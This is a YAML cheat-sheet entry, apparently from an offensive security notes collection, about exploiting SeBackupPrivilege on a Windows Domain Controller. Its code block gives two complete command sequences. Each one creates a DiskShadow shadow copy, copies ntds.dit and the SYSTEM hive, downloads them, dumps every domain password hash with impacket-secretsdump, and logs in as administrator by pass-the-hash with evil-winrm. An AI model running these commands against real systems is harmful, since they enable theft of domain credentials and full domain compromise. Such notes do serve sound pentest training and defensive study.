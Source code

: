 ---
description: |
  This guide demonstrates how to enumerate and exploit SeBackupPrivilege on a Windows Domain Controller to extract password hashes. It covers privilege enumeration, using DiskShadow to bypass file locks, copying ntds.dit and SYSTEM hive, and extracting hashes with Impacket. Two methods are shown: using built-in commands and PowerShell modules.

command: |
  whoami /priv | findstr /i "SeBackupPrivilege"

code: |
  # Method 1: DiskShadow and Robocopy

  # On Kali, create DiskShadow script
  nano admin.dsh
  set context persistent nowriters
  add volume c: alias admin
  create
  expose %admin% z:
  unix2dos admin.dsh

  # On Windows target, transfer and execute
  cd C:\Temp
  upload admin.dsh
  diskshadow /s admin.dsh
  robocopy /b z:\windows\ntds . ntds.dit
  reg save hklm\system c:\Temp\system

  # Download files to Kali
  cd C:\Temp
  download ntds.dit
  download system

  # Extract hashes with Impacket
  impacket-secretsdump -ntds ntds.dit -system system local

  # Pass-the-hash login
  evil-winrm -i <DC_IP> -u administrator -H "<NTLM_HASH>"

  # Method 2: PowerShell DLLs

  # Upload required files
  cd C:\Temp
  upload admin.dsh
  upload SeBackupPrivilegeUtils.dll
  upload SeBackupPrivilegeCmdLets.dll

  # Import DLLs and create backup
  Import-Module .\SeBackupPrivilegeUtils.dll
  Import-Module .\SeBackupPrivilegeCmdLets.dll
  diskshadow /s admin.dsh

  # Copy files using PowerShell cmdlet
  Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
  reg save hklm\system C:\Temp\system

  # Download files to Kali
  cd C:\Temp
  download ntds.dit
  download system

  # Extract hashes with Impacket
  impacket-secretsdump -ntds ntds.dit -system system local

  # Pass-the-hash login
  evil-winrm -i <DC_IP> -u administrator -H "<NTLM_HASH>"

OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://www.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/token-privileges
  - https://github.com/k4sth4/SeBackupPrivilege
  - https://github.com/giuliano108/SeBackupPrivilege 